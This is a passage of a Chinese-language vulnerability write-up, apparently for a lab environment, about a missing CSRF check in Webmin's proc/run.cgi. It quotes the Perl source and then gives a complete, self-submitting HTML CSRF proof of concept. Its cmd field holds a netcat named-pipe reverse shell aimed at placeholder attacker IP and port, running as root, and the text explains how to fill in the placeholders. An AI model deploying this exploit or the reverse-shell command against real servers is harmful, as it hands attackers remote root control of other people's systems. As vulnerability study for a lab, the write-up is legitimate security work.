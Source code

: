     # run and display output..
    &ui_print_unbuffered_header(undef, $text{'run_title'}, "");
    print "<p>\n";
    print &text('run_output', "<tt>".&html_escape($in{'cmd'})."</tt>"),"<p>\n";
    print "<pre>";
    $got = &safe_process_exec_logged($cmd, 0, 0,
                     STDOUT, $in{'input'}, 1);
    if (!$got) { print "<i>$text{'run_none'}</i>\n"; }
    print "</pre>\n";
    &ui_print_footer("", $text{'index'});
    }
&webmin_log("run", undef, undef, \%in);


通过分析源码我们得知代码没有针对CSRF的保护措施，因此我们只需很简单的CSRF构造即可触发该漏洞，并且由于该漏洞触发点是run.cgi文件，我们可以直接通过CSRF构建RCE（远程命令执行），这是非常理想的漏洞利用场景。

漏洞利用

接下来我们通过构造PoC，尝试利用这个漏洞。

首先我们来构造一个HTML文件，这个HTML的核心目标是进行form表单的自动提交，源码如下：

<html>
        <head>
            <meta name="referrer" content="never">
        </head>
  <body>
    <form action="http://your_mituan_app_address/proc/run.cgi" method="POST">
      <input type="hidden" name="cmd" value="mkfifo /tmp/378; nc your_ip your_port 0</tmp/378 | /bin/sh >/tmp/378 2>&1; rm /tmp/378" />
      <input type="hidden" name="mode" value="0" />
      <input type="hidden" name="user" value="root" />
      <input type="hidden" name="input" value="" />
      <input type="hidden" name="undefined" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>

</html>


其中主要参数是cmd字段，其含义是：


创建一个命名管道378；
Webmin作为客户端使用nc连接黑客控制的服务端，接收命令，并通过匿名管道将命令重定向到bash；
bash执行服务端发过来的命令，将输出重定向到命名管道378，并通过命名管道378将输出重定向到nc发送给服务端。


这一条命令实际包含了两条管道，一条匿名管道，一条命名管道，并使其各司其职。它先后将html文件中的your_mituan_app_address、your_ip、your_port替换为谜团启动的应用URL、你的服务器地址、你的服务器IP，即可开始CSRF攻击。
